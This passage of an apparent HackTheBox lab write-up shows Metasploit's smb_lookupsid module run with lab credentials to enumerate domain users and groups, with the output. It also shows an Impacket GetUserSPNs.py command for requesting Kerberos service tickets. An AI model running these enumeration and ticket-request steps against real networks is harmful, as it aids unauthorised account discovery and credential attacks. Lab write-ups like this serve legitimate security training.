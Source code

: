     :::text
    msf5 auxiliary(admin/kerberos/ms14_068_kerberos_checksum) > use auxiliary/scanner/smb/smb_lookupsid
    msf5 auxiliary(scanner/smb/smb_lookupsid) > show options

    Module options (auxiliary/scanner/smb/smb_lookupsid):

      Name       Current Setting  Required  Description
      ----       ---------------  --------  -----------
      MaxRID     4000             no        Maximum RID to check
      MinRID     500              no        Starting RID to check
      RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
      SMBDomain  .                no        The Windows domain to use for authentication
      SMBPass                     no        The password for the specified username
      SMBUser                     no        The username to authenticate as
      THREADS    1                yes       The number of concurrent threads


    Auxiliary action:

      Name   Description
      ----   -----------
      LOCAL  Enumerate local accounts


    msf5 auxiliary(scanner/smb/smb_lookupsid) > set RHOSTS 10.10.10.161
    RHOSTS => 10.10.10.161
    msf5 auxiliary(scanner/smb/smb_lookupsid) > set SMBDomain HTB.LOCAL
    SMBDomain => HTB.LOCAL
    msf5 auxiliary(scanner/smb/smb_lookupsid) > set SMBUser svc-alfresco
    SMBUser => svc-alfresco
    msf5 auxiliary(scanner/smb/smb_lookupsid) > set SMBPass s3rvice
    SMBPass => s3rvice
    msf5 auxiliary(scanner/smb/smb_lookupsid) > run

    [*] 10.10.10.161:445      - PIPE(LSARPC) LOCAL(HTB - 5-21-3072663084-364016917-1341370565) DOMAIN(HTB - 5-21-3072663084-364016917-1341370565)
    [*] 10.10.10.161:445      - USER=Administrator RID=500
    <SNIP>
    [*] 10.10.10.161:445      - USER=lucinda RID=1146
    [*] 10.10.10.161:445      - USER=svc-alfresco RID=1147
    [*] 10.10.10.161:445      - GROUP=Service Accounts RID=1148
    [*] 10.10.10.161:445      - GROUP=Privileged IT Accounts RID=1149
    [*] 10.10.10.161:445      - USER=andy RID=1150
    [*] 10.10.10.161:445      - USER=mark RID=1151
    [*] 10.10.10.161:445      - USER=santi RID=1152

We can also try to get Users SPNs

    :::text
    python GetUserSPNs.py -request htb.local/svc-alfresco:s3rvice
    Impacket v0.9.16-dev - Copyright 2002-2018 Core Security Technologies

    No entries found


We add the DC to our `/etc/resolv.conf` and install `rdate` to have the same
time as the DC.
